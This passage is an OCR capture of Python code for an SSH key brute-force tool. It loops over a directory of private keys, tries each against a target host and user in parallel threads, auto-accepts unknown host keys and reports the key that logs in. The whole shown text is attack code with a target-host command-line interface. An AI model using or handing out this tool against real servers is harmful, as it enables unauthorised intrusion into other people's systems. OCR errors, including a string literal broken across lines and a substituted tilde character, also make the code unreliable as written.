 ```
        perm_denied = 'Permission denied'
        ssh_newkey = 'Are you sure you want to continue'
        conn_closed = 'Connection closed by remote host'
        opt = ' -o PasswordAuthentication=no'
        connStr = 'ssh ' + user + '@' + host + ' -i ' + keyfile + opt
        child = pexpect.spawn(connStr)
        ret = child.expect([pexpect.TIMEOUT, perm_denied,
        ssh_newkey, conn_closed, '$', '#', ])
        if ret == 2:
            print('[-] Adding Host to ∼/.ssh/known_hosts')
            child.sendline('yes')
            connect(user, host, keyfile, False)
        elif ret == 3:
            print('[-] Connection Closed By Remote Host')
            Fails += 1
        elif ret > 3:
            print('[+] Success. ' + str(keyfile))
            Stop = True
    finally:
        if release:
            connection_lock.release()
def main():
    parser = optparse.OptionParser('usage%prog -H <target host> -u <user> -d <directory>')
    parser.add_option('-H', dest='tgtHost', type='string', help='specify target host')
    parser.add_option('-d', dest='passDir', type='string', help='specify directory with keys')
    parser.add_option('-u', dest='user', type='string', help='specify the user')
    (options, args) = parser.parse_args()
    host = options.tgtHost
    passDir = options.passDir
    user = options.user
    if host == None or passDir == None or user == None:
        print(parser.usage)
        exit(0)
    for filename in os.listdir(passDir):
        if Stop:
            print('[*] Exiting: Key Found.')
            exit(0)
        if Fails > 5:
            print('[!] Exiting: Too Many Connections Closed By
            Remote Host.')
            print('[!] Adjust number of simultaneous threads.')
            exit(0)
        connection_lock.acquire()
        fullpath = os.path.join(passDir, filename)
        print('[-] Testing keyfile ' + str(fullpath))
        t = threading.Thread(target=connect, args=(user, host, fullpath, True))
        t.start()
if __name__ == '__main__':
    main() 
```
